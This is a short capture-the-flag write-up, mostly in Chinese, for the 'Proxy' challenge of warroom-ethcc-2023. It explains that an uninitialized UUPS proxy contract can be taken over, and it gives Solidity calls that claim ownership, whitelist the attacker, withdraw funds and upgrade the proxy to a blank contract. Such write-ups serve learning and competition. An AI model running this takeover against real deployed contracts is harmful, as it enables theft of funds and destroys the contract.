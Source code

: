 # Writeup

refer to [Repo](https://github.com/Snooowgh/warroom-ethcc-2023)

## 1. Proxy

题目要求其他人无法接管合约的implementation
Proxy合约未被初始化, 任何人可以获取owner权限
步骤如下:

- 调用initialize函数成为owner
- 调用whitelistUser函数加入到白名单中
- 调用withdraw函数提取 2 wei ETH
- 调用upgradeTo函数升级合约到自定义的空合约(UUPSUpgradeable合约函数)

```solidity
address(proxy).call{value: 0.1 ether}(
    abi.encodeWithSignature("initialize(address)", address(0))
);
address(proxy).call(
abi.encodeWithSignature("whitelistUser(address)", attacker)
);
address(proxy).call(
abi.encodeWithSignature("withdraw(uint256)", 2)
);
Blank blank = new Blank();
address(proxy).call(
abi.encodeWithSignature("upgradeTo(address)", address(blank))
);

```